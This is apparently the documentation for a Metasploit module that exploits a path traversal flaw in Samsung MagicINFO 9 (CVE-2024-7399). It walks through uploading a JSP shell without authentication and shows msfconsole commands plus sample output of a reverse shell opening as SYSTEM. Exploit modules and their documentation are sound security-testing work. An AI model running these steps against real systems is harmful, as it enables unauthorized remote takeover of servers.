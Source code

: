 ## Vulnerable Application

**Vulnerability Description**

This module exploits a path traversal vulnerability in Samsung MagicINFO 9 <= 21.1050.0 (CVE-2024-7399).

Remote code execution can be obtained by exploiting the path traversal vulnerability (CVE-2024-7399) in the SWUpdateFileUploader servlet,
which can be queried by an unauthenticated user to upload a JSP shell.
By default, the application listens on TCP ports 7001 (HTTP) and 7002 (HTTPS) on all network interfaces and runs in the context of NT
AUTHORITY\SYSTEM.

**Vulnerable Application Installation**

A trial version of the software can be obtained from [the vendor]
(https://www.samsung.com/us/business/solutions/digital-signage-solutions/magicinfo/).

**Successfully tested on**

- MagicINFO 9 21.1040.2 on Windows 10 (22H2)

## Verification Steps

1. Install Postgres or MySQL
2. Install the application
3. Activate the license
4. Start `msfconsole` and run the following commands:

```
msf6 > use exploit/windows/http/magicinfo_traversal 
msf6 exploit(windows/http/magicinfo_traversal) > set RHOSTS <IP>
msf6 exploit(windows/http/magicinfo_traversal) > exploit 
```

You should get a shell in the context of `NY AUTHORITY\SYSTEM`.

## Scenarios

Running the exploit against MagicINFO 9 21.1040.2 on Windows 10 should result in an output similar to the
following:

```
msf6 exploit(windows/http/magicinfo_traversal) > exploit 

[*] Started reverse TCP handler on 192.168.137.204:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] MagicINFO version detected: MagicINFO 9 Server 21.1040.2
[+] The target appears to be vulnerable.
[*] Uploading payload...
[*] Upload successful
[*] Payload executed!
[*] Command shell session 3 opened (192.168.137.204:4444 -> 192.168.137.230:50038) at 2025-05-14 17:36:47 -0400


Shell Banner:
Microsoft Windows [Version 10.0.19045.3208]
(c) Microsoft Corporation. All rights reserved.

C:\MagicInfo Premium\tomcat\bin>
-----
          

C:\MagicInfo Premium\tomcat\bin>whoami
whoami
nt authority\system

C:\MagicInfo Premium\tomcat\bin>
```
